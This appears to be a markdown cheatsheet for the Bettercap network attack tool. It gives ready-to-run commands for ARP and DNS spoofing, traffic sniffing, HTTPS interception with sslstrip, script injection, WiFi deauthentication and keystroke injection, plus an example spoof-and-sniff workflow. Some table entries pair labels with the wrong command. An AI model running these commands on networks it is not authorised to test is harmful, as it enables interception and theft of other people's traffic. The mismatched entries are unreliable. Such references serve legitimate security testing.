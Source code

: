 ## 🎯 Bettercap Cheatsheet

Bettercap is a powerful, flexible, and portable network attack and monitoring tool.

##

### ⚙️ Installation

| Method            | Command                                            |
| ----------------- | -------------------------------------------------- |
| On Kali Linux     | Pre-installed                                      |
| From apt (Debian) | `sudo apt install bettercap`                       |
| From brew (macOS) | `brew install bettercap`                           |
| From source       | `go install github.com/bettercap/bettercap@latest` |
| Run after install | `bettercap -h`                                     |

### 🏁 Starting Bettercap

| Purpose                 | Command                               |
| ----------------------- | ------------------------------------- |
| Start Bettercap         | `sudo bettercap`                      |
| Specify interface       | `sudo bettercap -iface eth0`          |
| Specify gateway         | `sudo bettercap -gateway 192.168.1.1` |
| Load commands from file | `sudo bettercap -caplet example.cap`  |
| List available caplets  | `caplets.show`                        |

### 🧰 Modules Overview

| Module Name        | Description              |
| ------------------ | ------------------------ |
| `net.probe`        | Active network discovery |
| `net.recon`        | Passive network recon    |
| `net.sniff`        | Packet sniffer module    |
| `net.sniff.filter` | BPF filter for sniffer   |
| `net.show`         | Show network hosts       |
| `net.scan`         | ARP and port scanning    |
| `arp.spoof`        | ARP spoofing             |
| `dns.spoof`        | DNS spoofing             |
| `http.proxy`       | HTTP proxy module        |
| `http.server`      | HTTP file server         |
| `https.proxy`      | HTTPS MitM proxy         |
| `hid.keyboard`     | Emulate keyboard input   |

### 🔍 Recon and Scanning

| Task                    | Command                 |
| ----------------------- | ----------------------- |
| Enable passive recon    | `net.recon on`          |
| Enable active probing   | `net.probe on`          |
| Show hosts              | `net.show`              |
| Scan ports on host      | `net.scan 192.168.1.10` |
| ARP scan entire network | `net.probe on`          |

### 🎭 Spoofing & Sniffing

| Task                    | Command                               |
| ----------------------- | ------------------------------------- |
| Enable ARP spoofing     | `arp.spoof on`                        |
| Set ARP spoof target    | `set arp.spoof.targets 192.168.1.100` |
| Enable DNS spoofing     | `dns.spoof on`                        |
| Add DNS spoof entry     | `set dns.spoof.domains example.com`   |
| Enable sniffer          | `net.sniff on`                        |
| Set sniffer output file | `set net.sniff.output sniff.pcap`     |

### 🔗 Proxy and Injection

| Task                     | Command                                |
| ------------------------ | -------------------------------------- |
| Start HTTP proxy         | `http.proxy on`                        |
| Set proxy scripts        | `set http.proxy.script jsinject.js`    |
| Start HTTPS proxy (MitM) | `https.proxy on`                       |
| Set HTTPS proxy port     | `set https.proxy.sslstrip true`        |
| Launch fake HTTP server  | `http.server on`                       |
| Serve file via HTTP      | `set http.server.path /home/user/file` |

### 📡 Wireless Attacks

| Task                 | Command                         |
| -------------------- | ------------------------------- |
| Start WiFi recon     | `wifi.recon on`                 |
| Deauth a station     | `wifi.deauth XX:XX:XX:XX:XX:XX` |
| Sniff probe requests | `wifi.show`                     |
| Set WiFi interface   | `set wifi.interface wlan0`      |

### ⌨️ HID Attacks

| Task                      | Command                                |
| ------------------------- | -------------------------------------- |
| Emulate keyboard input    | `hid.keyboard on`                      |
| Set payload for injection | `set hid.keyboard.payload 'Windows+R'` |

### 📁 Caplets (Scripted Modules)

| Task                   | Command                                    |
| ---------------------- | ------------------------------------------ |
| List available caplets | `caplets.show`                             |
| Load a caplet          | `caplets.load arp-spoof.cap`               |
| Write custom caplet    | Save commands into `.cap` file and load it |

### 📌 Example Workflow

```bash
sudo bettercap -iface eth0
set arp.spoof.targets 192.168.1.10
arp.spoof on
net.sniff on
http.proxy on
```

